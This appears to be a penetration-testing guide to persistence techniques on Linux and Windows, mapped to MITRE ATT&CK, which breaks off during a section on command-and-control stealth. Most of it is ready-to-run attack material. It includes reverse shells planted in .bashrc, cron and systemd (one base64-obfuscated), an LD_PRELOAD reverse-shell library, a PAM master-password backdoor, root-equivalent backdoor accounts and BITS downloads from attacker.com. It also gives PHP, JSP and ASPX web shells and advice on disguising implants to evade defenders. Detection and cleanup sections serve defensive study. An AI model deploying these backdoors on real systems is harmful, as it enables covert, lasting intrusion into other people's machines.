


# Persistence Techniques

> **Difficulty:** Intermediate | **Category:** Penetration Testing | **Tactic:** TA0003

---

## 1. What is Persistence?

**Persistence** is the adversary's ability to maintain access to a compromised system across interrupting events — reboots, logouts, session timeouts, credential rotations, and even partial remediation by defenders.

### Why Attackers Establish Persistence

- **Avoid re-exploitation**: initial exploit may be unreliable, patched quickly, or rate-limited
- **Support long-term objectives**: data exfiltration, lateral movement, and espionage require extended dwell time
- **Survive credential changes**: even if the victim rotates passwords, persistence mechanisms that don't rely on passwords survive
- **Redundancy**: multiple mechanisms ensure at least one survives detection and removal
- **Delayed action**: set up for future use — ransomware deployment, supply chain attacks

### Persistence in a Pentest Context

> **Warning:** Always obtain **explicit written authorization** before deploying any persistence mechanism on a production system. Leaving backdoors without authorization is illegal and unethical regardless of intent.

| Scenario | Goal | Cleanup Required |
|---|---|---|
| **PoC Persistence** | Demonstrate capability, prove access survives reboot | Yes — remove immediately after demo |
| **Red Team Operation** | Full implant simulating real attacker | Yes — full cleanup at engagement end |
| **CTF / Lab** | Learn and practice techniques | N/A — controlled environment |

**Pentester rule of thumb**: Document every file, registry key, cron entry, and user account you create. Your cleanup list is built as you go, not after the fact.

---

## 2. Persistence Categories

### 2.1 By Volatility

| Category | Survives Reboot? | Survives Logout? | Notes |
|---|---|---|---|
| **Volatile (Memory)** | ❌ | ❌ | Process injection, in-memory payloads |
| **Session Persistence** | ❌ | ❌ | Active shell kept alive |
| **User-Level** | ✅ | ✅ (next login) | Cron, .bashrc, startup folder |
| **System-Level** | ✅ | ✅ | Services, root cron, system registry |
| **Firmware/BIOS** | ✅ | ✅ | Extremely persistent, rare in pentest |

### 2.2 By Mechanism

- **Scheduled Persistence** — cron jobs (Linux), Scheduled Tasks (Windows), `at` command
- **Service Persistence** — installed as daemon/service, auto-starts on boot
- **Autorun Persistence** — registry Run keys, login items, shell init files
- **Account Persistence** — backdoor user accounts, SSH key injection
- **Application Persistence** — web shells, plugin backdoors, DLL hijacking
- **Boot Persistence** — bootloader modification, kernel module, WMI subscriptions
- **Volatile Persistence** — process injection, reflective DLL loading, in-memory shellcode

---

## 3. MITRE ATT&CK Persistence Tactic (TA0003)

The [MITRE ATT&CK Framework](https://attack.mitre.org/tactics/TA0003/) catalogues adversary behaviors into tactics, techniques, and sub-techniques. **TA0003 — Persistence** covers methods used to maintain a foothold.

> **Note:** Use [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) to visualize coverage, map your red team activity, and identify detection gaps.

### Key Persistence Techniques

| MITRE ID | Technique | Sub-techniques | Platforms |
|---|---|---|---|
| **T1053** | Scheduled Task/Job | Cron, At, Scheduled Task, Systemd Timers | Linux, Windows, macOS |
| **T1543** | Create or Modify System Process | Windows Service, Systemd Service, Launch Daemon | Linux, Windows, macOS |
| **T1547** | Boot or Logon Autostart Execution | Registry Run Keys, Startup Folder, .bashrc, rc.local | Linux, Windows, macOS |
| **T1548** | Abuse Elevation Control Mechanism | Sudo, SUID, Bypass UAC | Linux, Windows |
| **T1554** | Compromise Client Software Binary | Binary replacement/patching | Linux, Windows, macOS |
| **T1556** | Modify Authentication Process | PAM, passwd/shadow, LSASS | Linux, Windows |
| **T1078** | Valid Accounts | Domain, Local, Cloud Accounts | All |
| **T1098** | Account Manipulation | SSH key add, group membership change | Linux, Windows |
| **T1136** | Create Account | Local, Domain, Cloud | All |
| **T1197** | BITS Jobs | — | Windows |
| **T1505** | Server Software Component | Web Shell, IIS Module, SQL Stored Procedure | Linux, Windows |
| **T1574** | Hijack Execution Flow | DLL Hijacking, PATH manipulation, LD_PRELOAD | Linux, Windows |

### Using ATT&CK Navigator

```bash
# Open in browser
https://mitre-attack.github.io/attack-navigator/

# Steps:
# 1. Click "Create New Layer" → "Enterprise"
# 2. Search techniques by ID (e.g., T1053)
# 3. Color-code by: attacker coverage, defender coverage, or priority
# 4. Export as SVG for reports
```

---

## 4. Volatility Spectrum

```mermaid
graph LR
    A["🔴 Most Volatile\n(Lost on reboot)"] --> B
    B["Process Injection\nT1055"] --> C
    C["In-Memory Shellcode\nReflective DLL"] --> D
    D["Volatile Cron\n(no persistence file)"] --> E
    E["🟡 Moderate\n(Survives reboot)"] --> F
    F["Cron Jobs / Scheduled Tasks\nT1053"] --> G
    G["Shell Init Files\n.bashrc / .profile"] --> H
    H["Registry Autoruns\nRun / RunOnce Keys\nT1547"] --> I
    I["WMI Subscriptions\nT1546.003"] --> J
    J["Service Installation\nT1543"] --> K
    K["Boot Sector / Kernel Module\nT1542"] --> L
    L["🟢 Least Volatile\n(Hardest to remove)"] --> M
    M["Account Creation\nT1136 / T1078"]

    style A fill:#ff4444,color:#fff
    style E fill:#ffaa00,color:#fff
    style L fill:#44aa44,color:#fff
```



---

## 5. Persistence by Privilege Level

### 5.1 Non-Privileged User (Low Shell)

What you can do without root/SYSTEM:

```bash
# Cron job — user level
crontab -e
# Add: @reboot /tmp/.update &

# .bashrc / .bash_profile modification
echo 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1 &' >> ~/.bashrc

# SSH authorized_keys injection
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo "ssh-rsa AAAAB3Nza...YOURKEYHERE== attacker" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# XDG autostart (desktop environments)
mkdir -p ~/.config/autostart
cat > ~/.config/autostart/updater.desktop << 'EOF'
[Desktop Entry]
Type=Application
Name=System Updater
Exec=/tmp/.update
Hidden=false
NoDisplay=false
X-GNOME-Autostart-enabled=true
EOF

# Python/pip user-level persistence (if pip is available)
# Place malicious package in ~/.local/lib/pythonX.X/site-packages/
```

### 5.2 Root / SYSTEM Level

```bash
# Systemd service
cat > /etc/systemd/system/system-update.service << 'EOF'
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reload
systemctl enable system-update.service
systemctl start system-update.service

# Root crontab
echo "@reboot /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'" | crontab -

# /etc/rc.local (older systems)
echo '/tmp/.update &' >> /etc/rc.local
chmod +x /etc/rc.local

# Modify /etc/passwd to add root-equivalent backdoor user
echo 'service:$6$salt$hashedpassword:0:0::/root:/bin/bash' >> /etc/passwd
# Generate hash: openssl passwd -6 -salt xyz 'password123'

# PAM backdoor (modifies authentication)
# /etc/pam.d/common-auth modification — see Section on PAM
```

### 5.3 Privilege Comparison Table

| Technique | Non-Priv User | Root/Admin | Notes |
|---|---|---|---|
| User crontab | ✅ | ✅ | Only executes when user is logged in (some systems) |
| System crontab `/etc/cron*` | ❌ | ✅ | Runs regardless of who's logged in |
| `~/.bashrc` injection | ✅ | ✅ | Triggers on interactive shell login |
| SSH `authorized_keys` | ✅ | ✅ | For own account only unless root |
| Systemd service | ❌ | ✅ | System-wide, auto-start on boot |
| `/etc/passwd` modification | ❌ | ✅ | Backdoor account |
| SUID binary placement | ❌ | ✅ | Root can set SUID bit |
| PAM module | ❌ | ✅ | Intercepts all authentication |
| Windows Registry HKLM | ❌ | ✅ | Machine-wide autorun |
| Windows Registry HKCU | ✅ | ✅ | Current user autorun |
| Windows Scheduled Task (system) | ❌ | ✅ | SYSTEM context |
| Windows Startup Folder (user) | ✅ | ✅ | Current user only |
| Windows Service creation | ❌ | ✅ | `sc create` requires admin |
| Web shell deployment | Depends | Depends | Requires write access to web root |

---

## 6. Linux Persistence — Techniques & Commands

### 6.1 Cron Jobs

```bash
# List all crontabs (as root — enumerate all users)
for user in $(cut -f1 -d: /etc/passwd); do
    crontab -u "$user" -l 2>/dev/null | grep -v '^#' | grep -v '^$' \
        && echo "  ^^ Belongs to: $user"
done

# System-wide cron locations
ls -la /etc/cron*
cat /etc/crontab
ls /etc/cron.d/
ls /etc/cron.daily/
ls /etc/cron.hourly/

# Deploy cron persistence (root)
echo "*/5 * * * * root /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'" \
    > /etc/cron.d/system-health-check

# Obfuscated cron entry
echo "@reboot root $(echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDQ0IDA+JjE=' \
    | base64 -d | bash)" > /etc/cron.d/syscheck
```

### 6.2 Systemd Timers (Modern Cron Alternative)

```bash
# Create timer unit
cat > /etc/systemd/system/beacon.timer << 'EOF'
[Unit]
Description=Beacon Timer

[Timer]
OnBootSec=60
OnUnitActiveSec=300
Unit=beacon.service

[Install]
WantedBy=timers.target
EOF

cat > /etc/systemd/system/beacon.service << 'EOF'
[Unit]
Description=System Beacon

[Service]
Type=oneshot
ExecStart=/usr/local/bin/sysupdate
EOF

systemctl enable beacon.timer
systemctl start beacon.timer

# Check timers
systemctl list-timers --all
```

### 6.3 SSH Key Injection

```bash
# Check if .ssh dir exists, create if needed
[ -d ~/.ssh ] || (mkdir -m 700 ~/.ssh)

# Inject your public key
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI... attacker@kali" \
    >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# As root — inject into any user
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI... attacker@kali" \
    >> /home/targetuser/.ssh/authorized_keys

# Inject into root's authorized_keys
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI... attacker@kali" \
    >> /root/.ssh/authorized_keys

# Verify
ssh -i ~/.ssh/id_ed25519 targetuser@target-ip
```

### 6.4 Backdoor User Account

```bash
# Generate hashed password
openssl passwd -6 -salt 'r4nd0m' 'B4ckd00r!2024'
# Example output: $6$r4nd0m$<hash>

# Add backdoor user with UID 0 (root equivalent)
echo 'svc-monitor:$6$r4nd0m$HASH:0:0:Service Monitor:/root:/bin/bash' >> /etc/passwd

# Alternatively using useradd then modifying
useradd -m -s /bin/bash svc-monitor
echo 'svc-monitor:B4ckd00r!2024' | chpasswd
usermod -aG sudo svc-monitor   # Debian/Ubuntu
usermod -aG wheel svc-monitor  # RHEL/CentOS

# Verify
id svc-monitor
su - svc-monitor
```

### 6.5 LD_PRELOAD / Library Hijacking (T1574)

```bash
# Create malicious shared library
cat > /tmp/evil.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    unsetenv("LD_PRELOAD");
    system("bash -i >& /dev/tcp/10.10.10.10/4444 0>&1 &");
}
EOF

gcc -shared -fPIC -nostartfiles -o /lib/x86_64-linux-gnu/libutil-debug.so /tmp/evil.c

# Add to /etc/ld.so.preload (root required)
echo '/lib/x86_64-linux-gnu/libutil-debug.so' >> /etc/ld.so.preload

# Per-user LD_PRELOAD via .bashrc
echo 'export LD_PRELOAD=/tmp/.libcache.so' >> ~/.bashrc
```

### 6.6 PAM Backdoor (T1556.003)

```bash
# Compile a PAM module that accepts a master password
# pam_backdoor.c — simplified concept
cat > /tmp/pam_backdoor.c << 'EOF'
#include <security/pam_modules.h>
#include <string.h>

PAM_EXTERN int pam_sm_authenticate(pam_handle_t *pamh, int flags,
                                    int argc, const char **argv) {
    const char *password;
    pam_get_authtok(pamh, PAM_AUTHTOK, &password, NULL);
    if (password && strcmp(password, "SuperSecretMasterKey") == 0)
        return PAM_SUCCESS;
    return PAM_IGNORE;
}

PAM_EXTERN int pam_sm_setcred(pam_handle_t *pamh, int flags,
                               int argc, const char **argv) {
    return PAM_SUCCESS;
}
EOF

gcc -shared -fPIC -o /lib/x86_64-linux-gnu/security/pam_debug.so \
    /tmp/pam_backdoor.c -lpam

# Insert into PAM config
sed -i '1i auth sufficient pam_debug.so' /etc/pam.d/common-auth

# Test: ssh with master password — works for any user
```

---

## 7. Windows Persistence — Techniques & Commands

### 7.1 Registry Autoruns (T1547.001)

```powershell
# HKCU — Current user (no admin required)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" `
    /v "WindowsDefenderUpdate" `
    /t REG_SZ `
    /d "C:\ProgramData\update.exe" /f

# HKLM — All users (admin required)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" `
    /v "WinlogonHelper" `
    /t REG_SZ `
    /d "C:\Windows\System32\svchost32.exe" /f

# RunOnce — executes once, then deletes itself
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" `
    /v "Updater" /t REG_SZ /d "C:\Temp\payload.exe" /f

# Via PowerShell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
    -Name "WindowsAV" -Value "powershell.exe -WindowStyle Hidden -File C:\ProgramData\av.ps1" `
    -PropertyType String -Force

# List all Run key entries (enumeration)
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

### 7.2 Scheduled Tasks (T1053.005)

```powershell
# Create scheduled task (GUI syntax)
schtasks /create /tn "WindowsDefenderScan" /tr "C:\Windows\Temp\update.exe" `
    /sc onlogon /ru SYSTEM /f

# PowerShell — more control
$action  = New-ScheduledTaskAction -Execute "powershell.exe" `
               -Argument "-WindowStyle Hidden -EncodedCommand <base64payload>"
$trigger = New-ScheduledTaskTrigger -AtStartup
$settings = New-ScheduledTaskSettingsSet -Hidden
$principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount

Register-ScheduledTask -TaskName "SystemHealthMonitor" `
    -Action $action -Trigger $trigger `
    -Settings $settings -Principal $principal -Force

# List all scheduled tasks
schtasks /query /fo LIST /v | findstr /i "task name\|status\|run as"

# Delete task (cleanup)
schtasks /delete /tn "WindowsDefenderScan" /f
Unregister-ScheduledTask -TaskName "SystemHealthMonitor" -Confirm:$false
```

### 7.3 Windows Services (T1543.003)

```powershell
# Create a new service
sc.exe create "WindowsTimeSync" binPath= "C:\Windows\System32\svchost32.exe -k netsvcs" `
    start= auto obj= LocalSystem DisplayName= "Windows Time Synchronization"

sc.exe description "WindowsTimeSync" "Synchronizes system time with network time servers"
sc.exe start "WindowsTimeSync"

# Modify existing service binary path (if writable)
sc.exe config "VulnService" binPath= "C:\Temp\evil.exe"

# PowerShell alternative
New-Service -Name "WinUpdateSvc" -BinaryPathName "C:\ProgramData\update.exe" `
    -Description "Windows Update Service" -StartupType Automatic
Start-Service "WinUpdateSvc"

# Enumerate services
sc.exe query type= all state= all
Get-Service | Where-Object {$_.StartType -eq "Automatic"}

# Cleanup
sc.exe stop "WindowsTimeSync"
sc.exe delete "WindowsTimeSync"
```

### 7.4 Startup Folder (T1547.001)

```powershell
# User startup folder (no admin required)
$userStartup = [System.Environment]::GetFolderPath('Startup')
# C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Copy-Item "C:\Temp\payload.exe" "$userStartup\svchost.exe"

# Create shortcut in startup folder
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$userStartup\UpdateHelper.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-WindowStyle Hidden -File C:\ProgramData\update.ps1"
$Shortcut.Save()

# All users startup (admin required)
$allStartup = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
Copy-Item "C:\Temp\payload.exe" "$allStartup\defender.exe"
```

### 7.5 WMI Event Subscriptions (T1546.003)

```powershell
# WMI persistence — survives reboots, hard to detect
$FilterName  = "SystemFilter"
$ConsumerName = "SystemConsumer"
$Command     = "powershell.exe -WindowStyle Hidden -EncodedCommand <b64>"

# Create Event Filter (trigger — on system startup)
$Filter = Set-WmiInstance -Namespace "root\subscription" -Class "__EventFilter" -Arguments @{
    Name           = $FilterName
    EventNamespace = "root\cimv2"
    QueryLanguage  = "WQL"
    Query          = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 60"
}

# Create Consumer (action)
$Consumer = Set-WmiInstance -Namespace "root\subscription" -Class "CommandLineEventConsumer" -Arguments @{
    Name            = $ConsumerName
    CommandLineTemplate = $Command
}

# Bind filter to consumer
Set-WmiInstance -Namespace "root\subscription" -Class "__FilterToConsumerBinding" -Arguments @{
    Filter   = $Filter
    Consumer = $Consumer
}

# Enumerate WMI subscriptions (defense/cleanup)
Get-WmiObject -Namespace "root\subscription" -Class "__EventFilter"
Get-WmiObject -Namespace "root\subscription" -Class "CommandLineEventConsumer"
Get-WmiObject -Namespace "root\subscription" -Class "__FilterToConsumerBinding"

# Remove
Get-WmiObject -Namespace "root\subscription" -Class "__FilterToConsumerBinding" | Remove-WmiObject
Get-WmiObject -Namespace "root\subscription" -Class "CommandLineEventConsumer" | Remove-WmiObject
Get-WmiObject -Namespace "root\subscription" -Class "__EventFilter" | Remove-WmiObject
```

### 7.6 DLL Hijacking (T1574.001)

```powershell
# Find vulnerable DLL search order locations
# Applications load DLLs from: application dir → System32 → system path
# If application dir is writable and DLL not present → hijack opportunity

# Enumerate DLL search order vulnerabilities with Process Monitor (Sysinternals)
# Filter: Result = NAME NOT FOUND, Path ends with .dll

# Or use PowerUp
. .\PowerUp.ps1
Find-DLLHijack

# Write malicious DLL
# Compile with: x86_64-w64-mingw32-gcc -shared -o version.dll evil.c -Wl,--out-implib,version.lib
# Drop in vulnerable application directory
Copy-Item "C:\Temp\version.dll" "C:\Program Files\VulnApp\version.dll"

# Common hijackable DLLs
# - version.dll (many applications)
# - dwmapi.dll (Windows app installer dirs)
# - wlbsctrl.dll (IKEEXT service on some Windows versions)
```

### 7.7 BITS Jobs (T1197)

```powershell
# Background Intelligent Transfer Service — often overlooked
# Persists after reboot, runs as SYSTEM, blends with Windows Update traffic

bitsadmin /create /download "WindowsUpdate"
bitsadmin /addfile "WindowsUpdate" "http://attacker.com/payload.exe" "C:\Windows\Temp\update.exe"
bitsadmin /SetNotifyCmdLine "WindowsUpdate" "C:\Windows\Temp\update.exe" ""
bitsadmin /SetMinRetryDelay "WindowsUpdate" 60
bitsadmin /resume "WindowsUpdate"

# PowerShell equivalent
Import-Module BitsTransfer
Start-BitsTransfer -Source "http://attacker.com/payload.exe" `
    -Destination "C:\Windows\Temp\update.exe" -Asynchronous

# Enumerate BITS jobs
bitsadmin /list /allusers /verbose
Get-BitsTransfer -AllUsers

# Cleanup
bitsadmin /cancel "WindowsUpdate"
```

---

## 8. Web Shells (T1505.003)

```bash
# PHP web shell — minimal
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/images/upload.php

# PHP web shell — with authentication
cat > /var/www/html/wp-includes/functions.core.php << 'EOF'
<?php
if(isset($_POST['k']) && $_POST['k'] === 'S3cr3tK3y2024') {
    system($_POST['cmd']);
}
?>
EOF

# PHP reverse shell trigger
cat > /var/www/html/css/style.core.php << 'EOF'
<?php
$ip = '10.10.10.10';
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', [0 => $sock, 1 => $sock, 2 => $sock], $pipes);
?>
EOF

# JSP web shell (Tomcat/Java)
cat > /opt/tomcat/webapps/ROOT/status.jsp << 'EOF'
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",cmd});
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while((line = br.readLine()) != null) out.println(line + "<br>");
%>
EOF

# ASPX web shell (IIS)
cat > C:\inetpub\wwwroot\admin\update.aspx << 'EOF'
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
    void Page_Load(object sender, EventArgs e) {
        if (Request["cmd"] != null) {
            Process p = new Process();
            p.StartInfo.FileName = "cmd.exe";
            p.StartInfo.Arguments = "/c " + Request["cmd"];
            p.StartInfo.UseShellExecute = false;
            p.StartInfo.RedirectStandardOutput = true;
            p.Start();
            Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
        }
    }
</script>
EOF

# Test web shell
curl "http://target.com/images/upload.php?cmd=id"
curl "http://target.com/images/upload.php?cmd=cat+/etc/passwd"
```

> **Warning:** Web shells are highly detectable by WAFs, AV, and file integrity monitoring. Use obfuscation or encrypted web shells (like Weevely) in engagements where stealth is required.

```bash
# Weevely — encrypted PHP web shell
pip3 install weevely
weevely generate MyS3cr3tP4ss /tmp/shell.php
# Upload shell.php to target...
weevely http://target.com/uploads/shell.php MyS3cr3tP4ss

# Find web shells on system (defender/cleanup perspective)
find /var/www -name "*.php" -newer /var/www/html/index.php -ls
find /var/www -name "*.php" | xargs grep -l "system\|exec\|passthru\|shell_exec\|eval"
```

---

## 9. Detection by Defenders (IOCs)

### 9.1 Common Indicators of Compromise

| IOC Category | What to Look For | Tool |
|---|---|---|
| New cron jobs | `/etc/cron.d/*`, `/var/spool/cron/crontabs/*` | Auditd, OSSEC |
| Shell init modifications | `.bashrc`, `.profile`, `.bash_profile` changes | File integrity monitoring |
| SSH key injection | New entries in `~/.ssh/authorized_keys` | OSSEC, Tripwire |
| New user accounts | `/etc/passwd` changes, Event ID 4720 | Auditd, Sysmon |
| New services | `systemctl list-units`, Event ID 7045 | Sysmon, SIEM |
| Registry modifications | HKLM/HKCU Run keys, Event ID 4657 | Sysmon (Event 13) |
| New scheduled tasks | `schtasks /query`, Event ID 4698 | Windows Event Log |
| SUID binaries | `find / -perm -4000` changes | Tripwire, AIDE |
| Web shells | Unexpected PHP/ASPX files in web roots | ModSecurity, CrowdStrike |
| WMI subscriptions | `root\subscription` namespace | Sysmon (Event 19/20/21) |
| Unusual listeners | `ss -tlnp` / `netstat -tlnp` | Auditd, EDR |

### 9.2 Linux Enumeration for Defense

```bash
# Find recently modified files (last 24h)
find / -mtime -1 -type f 2>/dev/null | grep -v /proc | grep -v /sys

# Check SUID binaries
find / -perm -4000 -type f 2>/dev/null

# All users with shell access
grep -v '/nologin\|/false' /etc/passwd

# All crontabs
for u in $(cut -d: -f1 /etc/passwd); do
    crontab -u "$u" -l 2>/dev/null && echo "User: $u"
done

# Check /etc/sudoers and sudoers.d
cat /etc/sudoers
ls /etc/sudoers.d/

# Active network connections
ss -tlnp
ss -tnp state established

# Running processes with open ports
lsof -i -n -P | grep LISTEN

# Check systemd services added recently
systemctl list-unit-files --type=service | grep enabled
ls -lt /etc/systemd/system/

# Check PAM config for modifications
ls -lt /etc/pam.d/
find /lib/x86_64-linux-gnu/security/ -newer /lib/x86_64-linux-gnu/security/pam_unix.so

# Check ld.so.preload
cat /etc/ld.so.preload 2>/dev/null

# Audit authorized_keys across all users
for h in $(awk -F: '{ print $6 }' /etc/passwd); do
    [ -f "$h/.ssh/authorized_keys" ] && echo "=== $h ===" && cat "$h/.ssh/authorized_keys"
done
```

---

## 10. Windows Event IDs for Persistence Detection

| Event ID | Log Source | Description | Significance |
|---|---|---|---|
| **4720** | Security | User account created | Backdoor account creation |
| **4722** | Security | User account enabled | Re-enabled dormant account |
| **4728** | Security | User added to global security group | Privilege escalation via group |
| **4732** | Security | User added to local security group | Local admin group membership |
| **4756** | Security | User added to universal security group | Domain-wide privilege gain |
| **7045** | System | New service installed | Malicious service installation |
| **7040** | System | Service start type changed | Service modified to auto-start |
| **4698** | Security | Scheduled task created | Task scheduler persistence |
| **4702** | Security | Scheduled task updated | Task modified post-creation |
| **4699** | Security | Scheduled task deleted | Cleanup (attacker removing traces) |
| **4657** | Security | Registry value modified | Registry autorun key changes |
| **4663** | Security | Attempt to access object | File write to sensitive locations |
| **1 (Sysmon)** | Microsoft-Windows-Sysmon | Process creation | Execution of implant |
| **11 (Sysmon)** | Microsoft-Windows-Sysmon | File created | Dropper activity |
| **13 (Sysmon)** | Microsoft-Windows-Sysmon | Registry value set | Autorun key modification |
| **19 (Sysmon)** | Microsoft-Windows-Sysmon | WMI Event Filter created | WMI persistence |
| **20 (Sysmon)** | Microsoft-Windows-Sysmon | WMI Event Consumer created | WMI persistence |
| **21 (Sysmon)** | Microsoft-Windows-Sysmon | WMI FilterConsumer binding | WMI persistence |

```powershell
# Query Event Log for persistence IOCs
# Account creation (Event 4720)
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4720} | Select-Object TimeCreated, Message

# New service (Event 7045)
Get-WinEvent -FilterHashtable @{LogName='System'; Id=7045} |
    Select-Object TimeCreated, @{N='ServiceName';E={$_.Properties[0].Value}} |
    Sort-Object TimeCreated -Descending

# Scheduled task creation (Event 4698)
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4698} |
    Select-Object TimeCreated, Message | Format-List

# Registry modification (Event 4657) — requires auditing enabled
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4657} |
    Where-Object {$_.Message -match 'Run|RunOnce|Services'} |
    Select-Object TimeCreated, Message
```

---

## 11. OPSEC Considerations for Persistence

> **Note:** OPSEC (Operational Security) determines how detectable your persistence is. Poor OPSEC leads to early detection, failed engagements, and burned infrastructure.

### 11.1 Naming Conventions

```bash
# Bad — obviously malicious
/tmp/reverse_shell.sh
C:\Temp\evil.exe
cron job named "HACKER_BACKDOOR"

# Good — blend in
/usr/lib/systemd/system/systemd-networkd-resolvd.service
C:\Windows\System32\svchost32.exe  # One char off from legitimate
Task name: "Microsoft\\Windows\\UpdateOrchestrator\\Schedule Scan Static Task"
```

### 11.2 File Locations

```bash
# Linux — blend into existing structure
/usr/share/man/man8/.cache          # Hidden in man pages
/var/lib/systemd/coredump/.core     # Hidden in coredump dir
/proc/sys/vm/.dirty_cache           # Proc-adjacent (actually just /tmp equivalent)
/etc/update-motd.d/99-custom        # Executed on SSH login as MOTD

# Windows — legitimate-looking paths
C:\Windows\System32\drivers\etc\   # Network configs dir
C:\ProgramData\Microsoft\Windows\  # App data, not scanned aggressively
C:\Users\Public\Documents\         # World-writable, less monitored
C:\Windows\SysWOW64\               # 32-bit system dir, often overlooked
```

### 11.3 Timing and Scheduling

```bash
# Schedule during normal business hours maintenance windows
# Avoid 3 AM — defenders know attackers love that
# Use realistic intervals — not every 30 seconds

# Business hours cron (08:00–17:00, Mon–Fri)
# Minute Hour DayOfMonth Month DayOfWeek
  */30   9-17  *           *     1-5    /usr/local/bin/beacon.sh

# Randomize execution time to avoid pattern detection
0 */4 * * * sleep $((RANDOM % 3600)) && /usr/local/bin/check-update.sh
```

### 11.4 C2 Communication OPSEC

```bash
# Use HTTPS on port 443 — blends with normal traffic
